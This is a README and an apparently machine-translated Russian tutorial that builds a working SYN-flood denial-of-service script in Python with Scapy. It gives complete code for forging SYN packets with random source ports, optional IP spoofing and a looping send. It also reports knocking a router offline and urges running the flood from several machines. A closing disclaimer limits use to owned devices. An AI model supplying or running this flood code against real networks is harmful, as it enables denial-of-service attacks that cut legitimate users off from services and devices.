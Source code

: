 # [How to Make a SYN Flooding Attack in Python](https://www.thepythoncode.com/article/syn-flooding-attack-using-scapy-in-python)
To run this:
- `pip3 install -r requirements.txt`
- Run help:
    ```
    python syn_flood.py --help
    ```
    **Output:**
    ```
    usage: syn_flood.py [-h] [-p PORT] target_ip

    Simple SYN Flood Script

    positional arguments:
    target_ip             Target IP address (e.g router's IP)

    optional arguments:
    -h, --help            show this help message and exit
    -p PORT, --port PORT  Destination port (the port of the target's machine
                            service, e.g 80 for HTTP, 22 for SSH and so on).
    ```
- To run this against your router's web interface that has the IP address of 192.168.1.1:
    ```
    python syn_flood.py -p 80 192.168.1.1
    ```
##
# [[] / []]()
Syn-флуд-атака — это распространенная форма атаки типа «отказ в обслуживании», при которой злоумышленник отправляет последовательность SYN-запросов целевой системе (может быть маршрутизатором, брандмауэром, системами предотвращения вторжений (IPS) и т. Д.). для того, чтобы потреблять его ресурсы, не позволяя законным клиентам устанавливать регулярное соединение.

TCP SYN flood использует первую часть трехстороннего рукопожатия TCP, и поскольку каждое соединение, использующее протокол TCP, требует этого, эта атака оказывается опасной и может вывести из строя несколько сетевых компонентов.

Чтобы понять SYN-флуд, нам сначала нужно поговорить о трехстороннем рукопожатии TCP:

TCP Трехстороннее рукопожатиеКогда клиент хочет установить соединение с сервером по протоколу TCP, клиент и сервер обмениваются серией сообщений:

Клиент запрашивает соединение, отправляя syn-сообщение на сервер.
Сервер отвечает сообщением SYN-ACK (подтверждает запрос).
Клиент отвечает ACK, а затем подключение запускается.
Атака SYN flood включает в себя злоумышленника, который отправляет пакеты SYN неоднократно, не отвечая ACK, и часто с различными исходными портами, что делает сервер неосведомленным об атаке и отвечает на каждую попытку пакетом SYN-ACK с каждого порта (красная и зеленая часть приведенного выше изображения). Таким образом, сервер быстро перестанет отвечать на запросы законных клиентов.

Учебник по теме: Как создать прослушиватель DHCP с помощью Scapy в Python.

В этом учебнике будет реализована атака SYN-флуда с использованием библиотеки Scapy в Python. Чтобы начать работу, вам нужно установить Scapy:

pip3 install scapy
Откройте новый файл Python и импортируйте Scapy:

from scapy.all import *
Я собираюсь проверить это на моем локальном маршрутизаторе, который имеет частный IP-адрес 192.168.1.1:

# target IP address (should be a testing router/firewall)
target_ip = "192.168.1.1"
# the target port u want to flood
target_port = 80
Если вы хотите попробовать это на своем маршрутизаторе, убедитесь, что у вас есть правильный IP-адрес, вы можете получить адрес шлюза по умолчанию с помощью команд ipconfig и ip route в Windows и macOS / Linux соответственно.

Целевым портом является HTTP, так как я хочу наводнить веб-интерфейс моего маршрутизатора. Теперь давайте создадим наш пакет SYN, начиная с уровня IP:

# forge IP packet with target ip as the destination IP address
ip = IP(dst=target_ip)
# or if you want to perform IP Spoofing (will work as well)
# ip = IP(src=RandIP("192.168.1.1/24"), dst=target_ip)
Мы указали dst в качестве целевого IP-адреса, мы также можем установить src-адрес на поддельный случайный IP-адрес в диапазоне частной сети (закомментированный код), и он также будет работать.

Давайте создадим наш уровень TCP:

# forge a TCP SYN packet with a random source port
# and the target port as the destination port
tcp = TCP(sport=RandShort(), dport=target_port, flags="S")
Получите: Создайте 24 этических хакерских скрипта и инструмента с помощью Python Book

Таким образом, мы устанавливаем исходный порт (sport) на случайный короткий (который колеблется от 1 до 65535, как и порты) и dport (порт назначения) в качестве нашего целевого порта. В данном случае это служба HTTP.

Мы также устанавливаем флаги на "S", что указывает на тип SYN.

Теперь давайте добавим некоторые необработанные данные о флуде, чтобы занять сеть:

# add some flooding data (1KB in this case)
raw = Raw(b"X"*1024)
Удивительно, теперь давайте сложим слои и отправим пакет:

# stack up the layers
p = ip / tcp / raw
# send the constructed packet in a loop until CTRL+C is detected 
send(p, loop=1, verbose=0)
Поэтому мы использовали функцию send(), которая отправляет пакеты на уровне 3, мы установили цикл на 1, чтобы продолжать отправку, пока мы не нажмем CTRL + C, установив подробное значение 0, не будет печатать ничего во время процесса (без звука).

Сценарий готов! Теперь, после того, как я запустил это против своего маршрутизатора, это заняло несколько секунд, и, конечно же, маршрутизатор перестал работать, и я потерял соединение:

Маршрутизатор перестал работать после успешной атаки SYN-флуда с использованием ScapyЭто выходные данные следующей команды в Windows:

$ ping -t "192.168.1.1"
Он был захвачен с другой машины, отличной от злоумышленника, поэтому маршрутизатор больше не отвечает.

Чтобы вернуть все в нормальное русло, вы можете либо остановить атаку (нажав CTRL + C), либо, если устройство все еще не отвечает, продолжить и перезагрузить его.

Учебник по теме: Как сделать сканер сети с помощью Scapy в Python.

Заключение
Хорошо! С учебником покончено. Если вы попытаетесь запустить сценарий на локальном компьютере, вы заметите, что компьютер становится занятым, и задержка значительно увеличится. Вы также можете запустить сценарий на нескольких терминалах или даже на других машинах. Посмотрите, можете ли вы выключить сеть локального компьютера!

В нашей книге Ethical Hacking with Python мы создаем 24 хакерских инструмента с нуля с помощью Python. Обязательно проверьте это здесь, если вы заинтересованы!

Отказ от ответственности: Пожалуйста, не используйте его на устройстве, которым вы не владеете или не имеете разрешения. Мы не несем никакой ответственности. Этот учебник предназначен только для образовательных целей.

Узнайте также: Как создать ARP Spoofer в Python с помощью Scapy.